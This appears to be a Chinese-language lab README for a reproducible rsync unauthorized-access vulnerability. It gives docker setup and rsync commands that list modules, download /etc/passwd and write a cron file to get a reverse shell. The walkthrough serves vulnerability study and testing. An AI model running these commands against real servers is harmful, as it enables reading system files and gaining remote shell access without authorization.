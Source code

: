 # rsync 未授权访问漏洞

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

## 漏洞测试

编译及运行rsync服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，我们用rsync命令访问之：

```
rsync rsync://your-ip:873/
```

可以查看模块名列表：

![](1.png)

如上图，有一个src模块，我们再列出这个模块下的文件：

```
rsync rsync://your-ip:873/src/
```

![](2.png)

这是一个Linux根目录，我们可以下载任意文件：

```
rsync -av rsync://your-ip:873/src/etc/passwd ./
```

或者写入任意文件：

```
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
```

我们写入了一个cron任务，成功反弹shell：

![](3.png)
